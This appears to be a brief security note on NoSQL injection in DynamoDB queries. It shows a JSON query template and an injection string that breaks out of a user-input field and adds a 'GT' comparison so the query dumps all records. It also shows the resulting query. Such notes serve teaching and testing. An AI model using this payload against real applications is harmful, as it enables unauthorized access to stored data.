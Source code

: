 # DynamoDB nosql injection

![](./dynamo-nosql-normal.PNG)

Error shows the structure of the json query

![](./dynamo-nosql-error.PNG)

```json
{"Name": 
    {
        "ComparisonOperator": "EQ",
        "AttributeValueList": 
            [
                {
                    "S": " <USER INPUT> "
                }
            ]
    }
} 
```

Input `alice"}],"ComparisonOperator": "GT", "AttributeValueList":[{"S":"*`

![](./dynamo-nosql-dumpall.PNG)

Which inputs into below

```json
{"Name": 
    {
        "ComparisonOperator": "EQ",
        "AttributeValueList": 
            [
                {
                    "S": "   alice"}],"ComparisonOperator": "GT", "AttributeValueList":[{"S":"*   "
                }
            ]
    }
} 
```

